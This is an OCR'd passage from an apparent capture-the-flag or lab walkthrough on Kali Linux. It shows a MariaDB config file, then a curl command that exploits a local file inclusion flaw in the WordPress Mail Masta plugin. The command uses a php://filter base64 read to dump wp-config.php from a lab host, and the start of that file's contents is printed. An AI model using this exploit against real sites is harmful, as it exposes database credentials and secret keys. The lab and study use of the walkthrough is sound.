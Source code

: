 # Run program with --help to get a list of available options and with
# --print-defaults to see which it would actually understand and use.

#
# This group is read both both by the client and the server
# use it for options that affect everything
#
[client-server]

# Import all .cnf files from configuration directory
!includedir /etc/mysql/conf.d/
!includedir /etc/mysql/mariadb.conf.d/
                                                                                                                                                             
┌──(kali㉿kali)-[~]
└─$ 

Checking wp-config.php file:

┌──(kali㉿kali)-[~]
└─$ curl -s "http://10.10.209.153/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=/var/www/html/wordpress/wp-config.php" | base64 -d 
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/support/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );
